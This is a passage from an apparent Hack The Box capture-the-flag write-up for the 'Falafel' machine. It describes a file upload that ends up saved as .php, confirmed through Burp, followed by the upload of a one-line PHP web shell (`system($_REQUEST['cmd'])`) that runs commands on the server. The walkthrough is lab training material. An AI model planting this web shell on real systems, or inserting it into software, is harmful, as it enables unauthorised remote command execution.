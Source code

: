 I give that a try, and see in burp it's been uploaded successfully and that it's been renamed to `.php`.
![htb-falafel13](/images/htb/falafel/htb-falafel13.png)

I browse to the directory where the file was uploaded and confirm the successful execution of my php script.
![htb-falafel14](/images/htb/falafel/htb-falafel14.png)

I modify the php file with a tiny bit of code that will allow me to execute commands on the remote system, and upload again.
```php
<?php echo system($_REQUEST['cmd']); ?>
```
![htb-falafel15](/images/htb/falafel/htb-falafel15.png)